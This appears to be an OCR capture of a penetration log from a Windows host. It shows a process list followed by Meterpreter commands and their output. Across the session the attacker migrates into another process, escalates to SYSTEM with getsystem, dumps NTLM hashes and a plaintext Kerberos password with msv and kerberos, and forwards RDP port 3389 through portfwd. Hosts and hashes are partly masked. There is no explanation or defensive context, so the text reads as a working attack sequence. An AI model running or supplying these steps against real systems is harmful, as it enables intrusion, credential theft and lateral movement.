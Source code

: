 ```code
2208 2128 vmtoolsd.exe x86 0 xxxxxxxxxxxx\Administrator C:\Program Files\VMware\VMware Tools\vmtoolsd.exe
2232 2128 ctfmon.exe x86 0 xxxxxxxxxxxx\Administrator C:\WINDOWS\system32\ctfmon.exe
2244 2128 sqlmangr.exe x86 0 xxxxxxxxxxxx\Administrator C:\Program Files\Microsoft SQL Server\80\Tools\Binn\sqlmangr.exe
2396 424 svchost.exe x86 0 NT AUTHORITY\SYSTEM C:\WINDOWS\System32\svchost.exe
2440 424 dllhost.exe x86 0 NT AUTHORITY\SYSTEM C:\WINDOWS\system32\dllhost.exe
3008 2128 cmd.exe x86 0 xxxxxxxxxxxx\Administrator C:\WINDOWS\system32\cmd.exe
3024 3008 conime.exe x86 0 xxxxxxxxxxxx\Administrator C:\WINDOWS\system32\conime.exe
3180 636 wmiprvse.exe x86 0 NT AUTHORITY\SYSTEM C:\WINDOWS\system32\wbem\wmiprvse.exe
3248 828 wuauclt.exe xxxxxxxxxxxx\Administrator C:\WINDOWS\system32\wuauclt.exe
3380 376 logon.scr x86 0 xxxxxxxxxxxx\Administrator C:\WINDOWS\System32\logon.scr
```

```code
meterpreter > migrate 2128
[*] Migrating from 3104 to 2128...
[*] Migration completed successfully. meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM meterpreter > msv

[+] Running as SYSTEM
[*] Retrieving msv credentials msv credentials

===============

AuthID Package Domain User Password
------ ------- ------ ---- --------

0;109205 NTLM xxxxxxxxxxxx Administrator lm{ xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx}, ntlm{xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx }
0;996 Negotiate NT AUTHORITY NETWORK SERVICE lm{xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx }, ntlm{xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx }
0;997 Negotiate NT AUTHORITY LOCAL SERVICE n.s. (Credentials KO)
0;54469 NTLM n.s. (Credentials KO)
0;999 NTLM WORKGROUP xxxxxxxxxxxx\$ n.s. (Credentials KO)
```

```code
meterpreter > kerberos [+] Running as SYSTEM

[*] Retrieving kerberos credentials kerberos credentials

====================

AuthID Package Domain User Password
------ ------- ------ ---- --------

0;996 Negotiate NT AUTHORITY NETWORK SERVICE
0;997 Negotiate NT AUTHORITY LOCAL SERVICE
0;54469 NTLM
0;999 NTLM WORKGROUP xxxxxxxxxxxx$
0;109205 NTLM xxxxxxxxxxxx Administrator 123456

meterpreter > portfwd add -l 3389 -r x.x.x.x -p 3389 #IP已做处理
[*] Local TCP relay created: :3389 <-> x.x.x.x:3389
meterpreter > portfwd

Active Port Forwards

====================
Index Local Remote Direction
----- ----- ------ ---------
```